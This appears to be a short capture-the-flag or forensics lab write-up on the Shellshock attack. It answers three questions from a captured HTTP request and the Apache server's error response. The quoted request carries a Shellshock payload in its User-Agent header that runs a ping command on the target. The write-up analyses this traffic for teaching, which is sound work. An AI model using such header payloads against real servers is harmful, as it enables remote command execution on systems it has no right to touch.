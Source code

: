 > # Shellshock Attack

# Summary

## Q1. What is the server operating system?
Find HTTP packet and follow HTTP stream, you will the response from the web server.<br>
```
GET /exploitable.cgi HTTP/1.1
User-Agent: () { :;}; /bin/ping -c1 10.246.50.2
Host: 10.246.50.6
Accept: */*

HTTP/1.1 500 Internal Server Error
Date: Thu, 25 Sep 2014 17:27:35 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 615
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator,
 [no address given] and inform them of the time the error occurred,
and anything you might have done that may have
caused the error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 10.246.50.6 Port 80</address>
</body></html>
```
**Answer:** Ubuntu

## Q2. What is the application server and version running on the target system?
From the response above, you will the version application running on the target.<br>
**Answer:** Apache/2.2.22

## Q3. What is the exact command that the attacker wants to run on the target server?
At `User-Agent`, you will see the command attacker wants to run on the target.<br>
**Answer:** /bin/ping -c1 10.246.50.2
